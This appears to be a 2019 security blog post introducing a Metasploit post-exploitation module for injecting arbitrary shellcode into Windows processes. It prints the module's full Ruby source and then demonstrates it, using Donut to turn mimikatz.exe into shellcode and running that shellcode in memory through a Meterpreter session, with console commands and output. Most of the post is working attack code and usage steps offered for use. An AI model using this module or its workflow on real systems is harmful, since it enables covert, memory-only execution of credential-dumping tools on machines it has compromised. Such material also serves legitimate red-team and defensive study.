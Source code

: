 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## Meterpreter + Donut = Reflectively and Interactively Executing Arbitrary Executables via Shellcode Injection

I played a bit with the awesome [Donut](https://github.com/TheWover/donut) project, ending up writing a module for executing arbitrary shellcode within Meterpreter aka executing Mimikatz in-memory, reflectively and interactively! 🐱‍👤

[![asciicast](https://asciinema.org/a/IqHrCBG9R8jwCzJkCdaOXLSHJ.svg)](https://asciinema.org/a/IqHrCBG9R8jwCzJkCdaOXLSHJ)

## Motivation

[Donut](https://github.com/TheWover/donut) enables us to execute arbitrary .NET assembly, EXE, DLL, VBS, JS or XSL in-memory via Position Indipendent Code generation. Since I wrote in the past [the module for the Juicy variant of *Potato exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_075_reflection_juicy.rb), I knew that Metasploit offers some nice APIs to inject and run arbitrary shellcode, so I decided to write a module for arbitrary shellcode execution. I will demo it by popping an interactive, memory-only instance of Mimikatz!

## Source Code

This is the source code of the module. A [Pull Request](https://github.com/rapid7/metasploit-framework/pull/12391) was already opened to add it to the main repository.

Here it is a copy of the source code:

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core/post/common'
require 'msf/core/post/windows/reflective_dll_injection'

class MetasploitModule < Msf::Post
  include Msf::Post::Common
  include Msf::Post::Windows::ReflectiveDLLInjection

  def initialize(info={})
    super( update_info( info,
      'Name'          => 'Windows Manage Memory Shellcode Injection Module',
      'Description'   => %q{
        This module will inject into the memory of a process a specified shellcode.
      },
      'License'       => MSF_LICENSE,
      'Author'        => [ 'phra <https://iwantmore.pizza>' ],
      'Platform'      => [ 'win' ],
      'SessionTypes'  => [ 'meterpreter' ]
    ))

    register_options(
      [
        OptPath.new('SHELLCODE', [true, 'Path to the shellcode to execute']),
        OptInt.new('PID', [false, 'Process Identifier to inject of process to inject the shellcode. (0 = new process)', 0]),
        OptBool.new('CHANNELIZED', [true, 'Retrieve output of the process', true]),
        OptBool.new('INTERACTIVE', [true, 'Interact with the process', true]),
        OptBool.new('HIDDEN', [true, 'Spawn an hidden process', true]),
        OptEnum.new('BITS', [true, 'Set architecture bits', '64', ['32', '64']])
      ])
  end

  # Run Method for when run command is issued
  def run

    # syinfo is only on meterpreter sessions
    print_status("Running module against #{sysinfo['Computer']}") if not sysinfo.nil?

    # Set variables
    shellcode = IO.read(datastore['SHELLCODE'])
    pid = datastore['PID']
    bits = datastore['BITS']
    p = nil
    if bits == '64'
      bits = ARCH_X64
    else
      bits = ARCH_X86
    end

    if pid == 0 or not has_pid?(pid)
      p = create_temp_proc(bits)
      print_status("Spawned process #{p.pid}")
    else
      print_status("Opening process #{p.pid}")
      p = client.sys.process.open(pid.to_i, PROCESS_ALL_ACCESS)
    end

    if bits == ARCH_X64 and client.arch == ARCH_X86
      print_error("You are trying to inject to a x64 process from a x86 version of Meterpreter.")
      print_error("Migrate to an x64 process and try again.")
      return false
    elsif arch_check(bits, p.pid)
      inject(shellcode, p)
    end
  end

  # Checks the Architeture of a Payload and PID are compatible
  # Returns true if they are false if they are not
  def arch_check(bits, pid)
    # get the pid arch
    client.sys.process.processes.each do |p|
      # Check Payload Arch
      if pid == p["pid"]
        print_status("Process found checking Architecture")
        if bits == p['arch']
          print_good("Process is the same architecture as the payload")
          return true
        else
          print_error("The PID #{ p['arch']} and Payload #{bits} architectures are different.")
          return false
        end
      end
    end
  end

  # Creates a temp notepad.exe to inject payload in to given the payload
  # Returns process PID
  def create_temp_proc(bits)
    windir = client.sys.config.getenv('windir')
    # Select path of executable to run depending the architecture
    if bits == ARCH_X86 and client.arch == ARCH_X86
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X64
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X86
      cmd = "#{windir}\\Sysnative\\notepad.exe"
    elsif bits == ARCH_X86 and client.arch == ARCH_X64
      cmd = "#{windir}\\SysWOW64\\notepad.exe"
    end

    proc = client.sys.process.execute(cmd, nil, {
      'Hidden' => datastore['HIDDEN'],
      'Channelized' => datastore['CHANNELIZED'],
      'Interactive' => datastore['INTERACTIVE']
    })

    return proc
  end

  def inject(shellcode, p)
    print_status("Injecting shellcode into process ID #{p.pid}")
    begin
      print_status("Allocating memory in process #{p.pid}")
      mem = inject_into_process(p, shellcode)
      print_status("Allocated memory at address #{"0x%.8x" % mem}, for #{shellcode.length} byte shellcode")
      p.thread.create(mem, 0)
      print_good("Successfully injected payload into process: #{p.pid}")

      if datastore['INTERACTIVE'] && datastore['CHANNELIZED'] && datastore['PID'] == 0
        print_status("Interacting")
        client.console.interact_with_channel(p.channel)
      elsif datastore['CHANNELIZED']
        print_status("Retrieving output")
        data = p.channel.read
        print_line(data) if data
      end
    rescue ::Exception => e
      print_error("Failed to inject Payload to #{p.pid}!")
      print_error(e.to_s)
    end
  end
end
```

## Demo

We want to reflectively and interactively execute Mimikatz on the target system. Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/mimikatz.exe -a 2 -o /tmp/payload.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/mimikatz.exe"
  [ File type     : EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/payload.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/payload.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz # exit
Bye!
[*] Post module execution completed
```

It works, awesome! 🚀

![demo](../assets/images/shellcode_inject.jpg "Demo")

[back](../)
